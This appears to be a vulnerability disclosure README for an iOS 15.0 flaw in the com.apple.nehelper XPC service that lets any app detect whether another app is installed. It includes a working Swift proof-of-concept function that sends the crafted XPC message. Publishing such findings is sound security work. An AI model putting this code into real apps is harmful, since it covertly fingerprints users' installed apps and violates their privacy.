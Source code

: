 # nehelper enumerate installed apps 0-day (iOS 15.0)

The vulnerably allows any user-installed app to determine whether any app is installed on the device given its bundle ID.

XPC endpoint "com.apple.nehelper" has a method accessible to any app that accepts bundle ID as a parameter and returns an array containing some cache UUIDs if the app with matching bundle ID is installed on the device or an empty array otherwise.
This happens in  `-[NEHelperCacheManager onQueueHandleMessage:]` in `/usr/libexec/nehelper`.

```
func isAppInstalled(bundleId: String) -> Bool {
    let connection = xpc_connection_create_mach_service("com.apple.nehelper", nil, 2)!
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_uint64(xdict, "delegate-class-id", 1)
    xpc_dictionary_set_uint64(xdict, "cache-command", 3)
    xpc_dictionary_set_string(xdict, "cache-signing-identifier", bundleId)
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    if let resultData = xpc_dictionary_get_value(reply, "result-data"), xpc_dictionary_get_value(resultData, "cache-app-uuid") != nil {
        return true
    }
    return false
}
```
